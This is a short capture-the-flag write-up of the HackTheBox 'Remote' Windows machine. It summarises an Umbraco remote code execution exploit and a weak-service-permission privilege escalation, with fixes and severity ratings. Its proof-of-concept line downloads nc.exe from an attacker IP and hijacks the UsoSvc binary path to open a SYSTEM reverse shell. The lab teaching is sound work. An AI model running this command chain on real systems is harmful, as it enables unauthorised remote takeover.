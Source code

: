 ```yaml
---
layout: post
title: "Remote Walkthrough"
date: 2020-09-12
---
```


Remote is a Windows-based vulnerable machine created by mrb3n for HackTheBox platform. This machine follows OSCP style in my opinion and experience. 
In the process of escalating privileges on this machine a user will practice enumerating NFS share, vulnerable web application and also practice password cracking skills.
Once low privilege shell is obtained, one can exploit weak permissions of one of the services running on the system in order to get root level privileges.

**Vulnerable System**: 
=======================

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Remote%20Walkthrough/media/8d83256bfd7ad98c6402b8b0507b9101.png?raw=true)

**Operating System**: Windows Server 2016

**Kernel**: N/A

**Vulnerability Exploited**: Remote Code Execution

**Exploit Used**: Umbraco RCE PowerShell Reverse Shell PoC

**Proof of Concept Code**: https://github.com/Jonoans/Umbraco-RCE

**Vulnerability Explained**: The exploit takes advantage of vulnerability in
Umbraco CMS, which allows remote code execution by sending a specifically
crafted packet as authenticated user.

**Vulnerability fix**: Update to the latest version of software which does not
contain the vulnerability.

**Severity**: **Medium**

**Privilege Escalation Vulnerability**: Weak Service Permissions

**Exploit Used**: N/A

**Proof of Concept Code**: wget "http://10.10.14.224/nc.exe" -outfile "nc.exe"
| sc.exe config UsoSvc binpath= "C:\\inetpub\\wwwroot\\nc.exe -nv 10.10.14.224
8080 -e C:\\WINDOWS\\System32\\cmd.exe" | net stop UsoSvc | net start UsoSvc
| nc -nvlp 8080

**Privilege Escalation Vulnerability Explained:** A service is ran with SYSTEM
privileges and weak permissions. It is possible for a regular user to modify the
binary path of the service and execute any command on the system.

**Vulnerability fix**: Restrict who has permissions to modify, start or stop the
service as per principle of least privilege.

**Severity**: **High**
